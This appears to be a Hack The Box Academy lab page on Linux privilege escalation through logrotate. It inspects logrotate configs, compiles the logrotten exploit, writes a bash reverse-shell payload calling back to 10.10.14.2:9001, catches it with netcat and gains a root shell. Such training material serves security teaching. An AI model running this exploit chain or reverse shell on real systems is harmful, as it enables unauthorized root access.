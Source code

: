 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/1589
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 1589
// Section Title: Logrotate
// Page Title: Linux Privilege Escalation
// Page Number: 18
-->

# Logrotate

**Module Name:** Linux Privilege Escalation **Page Number:** 18

#### LINUX PRIVILEGE ESCALATION

# Logrotate

``` shell-session
[!bash!]$ man logrotate
[!bash!]$ # or
[!bash!]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

``` shell-session
[!bash!]$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

``` shell-session
[!bash!]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

``` shell-session
[!bash!]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

``` shell-session
[!bash!]$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

``` shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

``` shell-session
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

``` shell-session
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

``` shell-session
[!bash!]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

``` shell-session
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

``` shell-session
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```

# 

# 

#### Questions

####
